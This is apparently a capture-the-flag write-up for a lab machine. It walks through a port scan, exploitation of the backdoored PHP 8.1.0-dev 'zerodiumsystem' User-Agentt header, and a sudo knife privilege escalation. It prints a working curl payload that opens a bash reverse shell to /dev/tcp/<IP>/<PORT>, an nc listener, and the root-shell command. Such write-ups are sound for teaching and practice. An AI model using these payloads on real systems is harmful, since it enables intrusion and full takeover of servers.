## Nmap Scan
---
![Nmap Scan](Nmap_Scan.png)

The ```Nmap``` Scan reveals port 22 and 80 open both respectfully for ssh and HTTP with an ```Apache``` web server running on port 80

## HTTP
---
![HTTP](Http.png)

Browsing the web server we find an  Emergent Medical Idea application hosted on it, However when viewing the response to our request on ```Burp Suite``` we find something interesting.

![version](Php_server.png)

the web server is running php version ```8.1.0-dev``` which has a ```RCE``` backdoor by the creator and one of the maintainers you can read about it here [Backdoor](https://amsghimire.medium.com/php-8-1-0-dev-backdoor-cb224e7f5914)

we can exploit this by running the following commands , first we need to start a listener
```
nc -lvnp <PORT>
```
next we need to use the ```RCE backdoor``` to start a reverse shell
```
curl http://10.10.10.242/index.php -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i &>/dev/tcp/<IP>/<PORT> 0>  
&1 '\");"
```

![User](User_shell.png)
We get a shell and we can go ahead and get the ```User Flag```.

## Privilege Escalation
---
We first check if this user can run any scripts as ```Sudo``` without a password.
![bin](Knife.png)
we find that user can run the ```/usr/bin/knife``` binary without a password which will be our route to escalation.

To exploit this binary we simply need to run the following command.
```
sudo knife exec --exec "exec '/bin/sh -i'"
```

![Root](Root.png)
Doing this we successfully get a shell as root and can get the final flag.